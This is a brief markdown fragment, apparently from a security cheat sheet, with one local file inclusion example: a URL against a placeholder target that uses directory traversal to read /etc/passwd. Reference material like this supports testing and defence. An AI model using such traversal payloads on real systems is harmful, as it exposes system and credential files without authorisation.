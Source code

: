 
# Exposing Sensitive Information

## LFI

```Bash
<TARGET_URL>/example.php?page=../../../../../../etc/passwd
```
